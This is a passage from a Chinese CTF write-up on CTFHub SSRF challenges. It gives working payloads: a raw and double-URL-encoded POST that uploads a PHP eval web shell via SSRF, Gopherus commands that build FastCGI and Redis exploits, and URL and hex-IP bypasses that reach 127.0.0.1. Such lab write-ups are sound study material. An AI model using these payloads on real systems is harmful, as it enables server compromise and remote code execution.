curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

访问?url=127.0.0.1/flag.php. 没有提交键，F12-Elements-Edit as HTML

``<input type="submit" name="submit" >``



尝试上传文件，但只能127.0.0.1访问，接下来同理POST请求，抓包上传文件

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-9e8e6b5360466489.sandbox.ctfhub.com:10080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryC8WybWFRf89XBIAg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-9e8e6b5360466489.sandbox.ctfhub.com:10080/?url=127.0.0.1/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=17848606931db4-0733bf671bf2b6-5771133-190140-17848606932a77
Connection: close

------WebKitFormBoundaryC8WybWFRf89XBIAg
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php eval(@$_POST['kite']); ?>
------WebKitFormBoundaryC8WybWFRf89XBIAg
```

同样bery URL编码2次

```
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520327%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-9e8e6b5360466489.sandbox.ctfhub.com%253A10080%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryC8WybWFRf89XBIAg%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520%2528Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%2529%2520AppleWebKit%252F537.36%2520%2528KHTML%252C%2520like%2520Gecko%2529%2520Chrome%252F89.0.4389.82%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-9e8e6b5360466489.sandbox.ctfhub.com%253A10080%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AAccept-Language%253A%2520zh%252Cen-US%253Bq%253D0.9%252Cen%253Bq%253D0.8%252Czh-CN%253Bq%253D0.7%250D%250ACookie%253A%2520UM_distinctid%253D17848606931db4-0733bf671bf2b6-5771133-190140-17848606932a77%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryC8WybWFRf89XBIAg%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520eval%2528%2540%2524_POST%255B%2527kite%2527%255D%2529%253B%2520%253F%253E%250D%250A------WebKitFormBoundaryC8WybWFRf89XBIAg
```



### FastCGI协议

**题目描述**

```
这次.我们需要攻击一下fastcgi协议咯.也许附件的文章会对你有点帮助
```

**好文**

[题目附文](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html#fastcgi-record)

https://www.soapffz.com/sec/ctf/566.html

这个具体原理以后再研究。

**相关概念**

- FastCGI协议

在静态网页中，WEB容器如Apache、Nginx相当于内容分发员角色，会根据用户请求的页面从网站根目录中返回给用户；在动态网站中，WEB容器如Apache会根据用户的请求简单处理后反馈给PHP解释器；apache 受到来自用户对index.php的请求后，若是CGI，则会启动对应的CGI程序，也就是PHP解析器。PHP解析器会解析php.ini文件，初始化执行环境，处理请求，再以CGI规定的格式返回处理后的结果，退出进程，最后Web服务器把结果返回给浏览器。以上是一个PHP Web完整的动态访问流程。

FastCGI相当于高性能的CGI，区别是启动后会一直运行，不需要每次处理数据都要启动一次。因此``FastCGI是与语言无关、可伸缩架构的CGI开发扩展，主要作用是将CGI解释器进程保持在内存中，从而获得更高性能``。

- PHP-FPM

官方解释：FPM(FastCGI进程管理)，用于替换PHP FastCGI大部分附加功能，对高负载网站较有用；php-fpm是FastCGI的一个具体实现，提供了进程管理功能在其中的进程之中，包含了master与worker两个进程，master进程负责与Web服务器进行通信接收HTTP请求，然后转发请求给worker进程处理，worker进程负责动态执行PHP代码，处理完成后将处理结果返回给Web服务器，最后Web服务器将结果发送给客户端。

- PHP-FPM未授权访问漏洞

漏洞存在点：PHP-FPM默认监听9000端口，若这个端口暴露在公网，攻击者可以构造fastcgi协议来与fpm进行通信。

**解题思路**

exp-> https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75


exp有点繁琐，可用[gopherus工具](https://github.com/tarunkant/Gopherus)一键生成exp(gopherus得到的结果需要再url编码一次)

```bash
git clone https://github.com/tarunkant/Gopherus
chmod +x install.sh
sudo ./install.sh
gopherus --exploit fastcgi
/var/www/html/index.php  # 执行fpm需要有一个php文件
ls
ls / 
cat /flag_c70d8398d0bc3c296ab6992e5b008ee1
```








### Redis协议

**题目描述**

```
这次来攻击redis协议吧.redis://127.0.0.1:6379,资料?没有资料!自己找!
```

**解题思路**

同样用gopherus工具

```bash
gopherus --exploit redis
# 默认paload为cmd密码
```
这里有个坑，传入gopher值得在前面加上_，要不然就一直报错，具体原因不清楚。








### URL_Bypass

**题目描述**

请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧

**解题思路**

- [利用解析URL所出现的问题](https://hackmd.io/@Lhaihai/H1B8PJ9hX#%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7)

在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

http://www.baidu.com@192.168.0.1/与http://192.168.0.1请求的都是192.168.0.1的内容

payload如下：
``?url=http://notfound.ctfhub.com@127.0.0.1/flag.php``

### 数字IP_Bypass

**题目描述**

```
这次ban掉了127以及172.不能使用点分十进制的IP了。但是又要访问127.0.0.1。该怎么办呢
```

**解题思路**

hacker! Ban '/127|172|@/'

解法一: localhost替代

解法二: 十六进制


https://c.runoob.com/front-end/58 在线进制转换工具

?url=0x7f000001/flag.php

### 302跳转_Bypass

直接访问127.0.0.1/flag.php

### DNS重绑定_Bypass

直接访问得到flag
